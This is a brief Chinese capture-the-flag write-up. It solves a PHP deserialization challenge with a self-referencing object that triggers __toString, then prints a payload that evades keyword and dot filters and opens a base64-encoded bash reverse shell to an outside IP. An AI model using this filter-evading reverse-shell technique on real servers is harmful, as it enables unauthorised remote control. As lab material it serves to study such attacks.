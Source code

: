 要RCE就要触发里面的tostring方法，很简单，只需要将第二个变量指向自己就可以了

不过exec这个函数是无回显的，我们要想办法拿到反弹shell

这里过滤掉了ip中的点，但是可以使用base64加密再解密结合bash执行命令即可

然后关键字bash和base64又被过滤掉了，不过可以使用斜杠的方式来绕过

payload👇

```
<?php
class minipop{
public $code="bas\h -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuMzUuMTkuNzgvMTAwIDA+JjE= | ba\se64 -d| bas\h -i'";
public $qwejaskdjnlka;

}
$one=new minipop();
$one->qwejaskdjnlka=$one;
echo serialize($one);

#其中echo后面的部分是 bash -i >& /dev/tcp/ip/port 0>&1 这样的，需要自己修改ip和端口
```

拿到flag

![](./images/1697686002-image.png)
